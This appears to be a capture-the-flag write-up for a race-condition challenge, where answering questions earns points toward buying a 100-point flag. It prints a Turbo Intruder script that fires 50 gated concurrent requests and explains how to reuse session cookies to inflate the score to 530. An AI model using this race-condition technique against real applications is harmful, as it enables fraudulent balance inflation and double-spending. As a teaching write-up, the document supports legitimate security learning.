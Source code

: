 This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)
    ```
    

Don't forget to add a %s otherwise attack will not succeede. We just need it for execution of the attack
![image](https://user-images.githubusercontent.com/19681324/158211789-ecfec676-d867-4932-8e5b-de9bed94c978.png)

After successful attack we now have 530 point 
![image](https://user-images.githubusercontent.com/19681324/158211962-b38c48d5-520b-4a01-8091-e781ffef93ad.png)

we can easily buy the flag now

![image](https://user-images.githubusercontent.com/19681324/158212039-3d096017-def9-4f17-86c9-dcb49461e75b.png)

